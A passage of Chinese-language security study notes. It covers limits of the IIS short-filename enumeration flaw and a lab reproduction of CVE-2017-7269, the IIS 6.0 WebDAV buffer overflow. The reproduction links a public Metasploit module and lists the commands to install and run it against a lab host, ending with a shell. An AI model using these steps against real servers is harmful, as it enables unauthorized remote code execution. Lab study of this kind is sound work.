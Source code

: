 - 如果文件名本身太短也是无法猜解的
- 此漏洞只能确定前6个字符，如果后面的字符太长、包含特殊字符，很难猜解
- 如果文件名前6位带空格，8.3格式的短文件名会补进，和真实文件名不匹配
- 如果文件夹名前6位字符带点`.`，扫描程序会认为是文件而不是文件夹，最终出现误报
- 不支持中文文件名，包括中文文件和中文文件夹。一个中文相当于两个英文字符，故超过4个中文字会产生短文件名，但是IIS不支持中文猜测

## RCE-CVE-2017-7269

Microsoft windows Server 2003 R2中的 Interne信息服务IIS6.0中的 WebDAV服务中的ScStoragePathFromUrl函数中的缓冲区溢出允许远程攻击者通过以`If:<http://`开头的长标头执行任意代码 PROPFIND请求
windows Server 2003 R2上使用IIS6.0并开启 WebDAV扩展。
复现一下这个漏洞
根据需求进行设置

![image.png](18.中间件安全\1689919953693-72c442d1-f3f7-4889-8ade-95787a4a4b19.png)

在kali中安装一下CVE-2017-7269的exp
下载脚本：[https://github.com/zcgonvh/cve-2017-7269/blob/master/cve-2017-7269.rb](https://github.com/zcgonvh/cve-2017-7269/blob/master/cve-2017-7269.rb)
然后我们把这个.rb文件放入MSF的渗透框架中(注意：在移动的时候重命名，把-改成_)
```bash
mv cve-2017-7269.rb /usr/share/metasploit-framework/modules/exploits/windows/iis/cve_2017_7269.rb
```
使用这个模块
```bash
msf6 > use exploit/windows/iis/cve_2017_7269
msf6 exploit(windows/iis/cve_2017_7269) > set rhosts 192.168.173.141
msf6 exploit(windows/iis/cve_2017_7269) > run
```
成功拿到shell
